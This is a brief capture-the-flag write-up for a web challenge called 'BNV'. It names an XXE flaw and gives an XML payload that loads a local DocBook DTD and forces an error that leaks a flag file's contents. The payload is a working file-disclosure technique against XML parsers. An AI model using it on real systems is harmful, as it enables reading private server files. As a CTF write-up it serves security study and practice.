 # BNV

This is a web service which can inquire the information of the world's Braille office.

## Vulnerability

There is a SIMPLE XXE bug.

## Exploit

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ELEMENT root (#PCDATA)>
<!ENTITY % ext SYSTEM "/flag">
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '

<!ENTITY &#x25; file SYSTEM "file://flag">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///juno/asdf/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;

'>

%local_dtd;

]>
<root></root><Paste>
```

